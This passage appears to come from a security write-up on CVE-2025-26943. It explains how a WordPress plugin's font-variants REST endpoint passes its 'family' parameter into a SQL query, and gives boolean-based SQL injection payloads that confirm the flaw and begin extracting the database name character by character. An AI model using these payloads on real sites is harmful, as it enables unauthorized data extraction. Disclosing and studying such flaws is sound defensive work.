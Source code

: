 The constructor of `Quotes_Rest_Route` uses `add_action(hook_name, callback)` with `hook_name` set to `rest_api_init` to register custom endpoints with WordPress’s REST API system.

The callback `rest_api_init` repeatedly uses `register_rest_route` to create endpoints under the `layart/v1` namespace.

`rest_route_callback_font_variants` serves as the callback for the endpoint:

```
/wp-json/layart/v1/font-variants?family=family_name
```

If no `family` parameter is provided, the default value is `"Shadows Into Light"`.

---

## Exploit

### Detect SQLi

We attempt **Boolean-based SQL Injection** to test whether the `family` parameter is injectable.

**True request**:
![True request](images/posts/2025-09-03-CVE-2025-26943/true_req.png)

Executed query:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto'+AND+'1'='1'"
```

Since `AND '1'='1'` is always true, the query is valid and returns normal data.

**False request**:
![False request](images/posts/2025-09-03-CVE-2025-26943/false_req.png)

Executed query:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto'+AND+'1'='2'"
```

Since `AND '1'='2'` is always false, the query returns `[]`.

### Get First Letter of Database Name

To **dump all data**, it’s essential to first extract at least one character of the database name.

> In this case, the database name is **wordpress**, so the first letter is `w`.

![First letter](images/posts/2025-09-03-CVE-2025-26943/first_letter.png)

The response returns valid data, confirming the first character is `w`.

Executed query:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto'+AND+SUBSTRING(DATABASE(),1,1)='w'"
```

---
